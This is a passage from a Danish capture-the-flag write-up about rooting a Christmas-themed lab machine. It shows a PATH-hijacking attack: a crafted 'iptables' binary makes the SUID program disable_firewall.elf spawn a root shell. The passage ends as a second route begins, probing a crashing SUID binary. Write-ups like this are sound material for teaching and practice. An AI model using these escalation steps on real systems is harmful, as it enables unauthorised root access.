 ```shell
suid.c:4:5: warning: incompatible implicit declaration of built-in function ‘execl’
kali@kali:~$
```

Derefter overføres filen til target, f.eks. i vores egen home mappe. Vi omnavngiver nu filen til "iptables" og sætter PATH til kun at se i vores mappe:

```shell
storenisse@nisseoenskelisten:~$ env
XDG_SESSION_ID=3
TERM=xterm-256color
...
PATH=/home/storenisse/bin:/home/storenisse/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
PWD=/home/storenisse
...
_=/usr/bin/env
storenisse@nisseoenskelisten:~$ PATH=. /var/www/html/nissetestprojekt2020/disable_firewall.elf
# id
sh: 1: id: not found
# PATH=/home/storenisse/bin:/home/storenisse/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),117(lpadmin),118(sambashare),1000(storenisse)
# cd /root
# ls -al
total 28
drwx------  2 root root 4096 Nov 20 14:35 .
drwxr-xr-x 25 root root 4096 Nov 18 21:09 ..
-rw-------  1 root root   13 Nov 20 14:35 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-------  1 root root   36 Nov 11 13:50 .lesshst
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
----------  1 root root   54 Nov 18 21:27 root.txt
#
# cat root.txt
```

<details><summary>Spoiler alert - Flaget til root:</summary></details>

<br>


### 2. PWN

Denne vej er noget mere udfordrende, men derved også sjovere :)

Efter endnu noget chmod, kan vi nu gå ind i /bulkimport_ønsker :

```shell
storenisse@nisseoenskelisten:/bulkimport_ønsker$ ls -la
total 40
drwxrwxr-x  2 storenisse storenisse  4096 Nov 20 14:05 .
drwxr-xr-x 25 root       root        4096 Nov 18 21:09 ..
---Sr-x---  1 root       storenisse 14328 Nov 19 21:55 bulkimport_ønsker.elf
storenisse@nisseoenskelisten:/bulkimport_ønsker$
storenisse@nisseoenskelisten:/bulkimport_ønsker$ ./bulkimport_ønsker.elf
| BulkImporter af ønsker - Copyright (c) 2020 Nisseværkstedet    |
\----------------------------------------------------------------/
Segmentation fault (core dumped)
storenisse@nisseoenskelisten:/bulkimport_ønsker$
```
